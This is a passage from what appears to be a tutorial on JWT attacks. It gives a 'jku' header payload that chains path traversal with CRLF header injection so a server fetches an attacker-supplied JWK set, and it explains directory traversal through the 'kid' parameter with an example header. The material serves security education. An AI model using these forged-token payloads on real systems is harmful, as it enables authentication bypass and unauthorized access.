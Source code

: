 - as shown above, we can add our JWK instead, like the following

![Untitled](/assets/images/JWT-attacks/Untitled%203.png)

we can use this vulnerable endpoint in `jku` to return our JWK and the server verifies using it

```json
"jku": "http://vulnerable.com/.well-known/../debug?value=1337%0d%0aContent-Length:%2043%0d%0a%0d%0a%7B%22keys%22:%5B%7B%22kty%22:%22RSA%22,%22use%22:%22sig%22,%22e%22:%22AQAB%22,%22kid%22:%22pentesterlab%22,%22n%22:%22qGkM2xNc2T1hXccAM5cTtW73hbV350hVjt0O2EF-0SA8dryPuKUcijGsMtFt8Ny5OdKAYao5QBqeA0PV_QfrlO06YUW4tRYb24IeQVKIjuYCOg92BZRTNex-wlKEUv16Daku1AN63FB_z3N_NXPpquG5n6Dtr9zaBZ7agSe1RHaPs5MTrJAiFHdz6AtpZ8MJldnbdf0PJ0NY7nvUyvut1BLKVcd5ikkCxY-bkXDHKcxHKktm7_2SGIXyU06-WxY9gsrWRpaqSnubPz8M0OfPPgrRKEEo4Z7flRh-dcoVhH94ZroGUe0rqbo7WctgSBAIloVOqx9REnB8BXjc-oMgTw%22,%22alg%22:%22RS256%22%7D%5D%7D"
```

### → **Injecting self-signed JWTs via the `kid` parameter**

Servers may use several cryptographic keys for signing different kinds of data, not just JWTs. For this reason, the header of a JWT may contain a `kid` (Key ID) parameter, which helps the server identify which key to use when verifying the signature.

Verification keys are often stored as a JWK Set. In this case, the server may simply look for the JWK with the same `kid` as the token. However, the JWS specification doesn't define a concrete structure for this ID - it's just an arbitrary string of the developer's choosing. For example, they might use the `kid` parameter to point to a particular entry in a database, or even the name of a file.

If this parameter is also vulnerable to [directory traversal](https://portswigger.net/web-security/file-path-traversal), an attacker could potentially force the server to use an arbitrary file from its filesystem as the verification key.

```json
{
    "kid": "../../../../../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
```
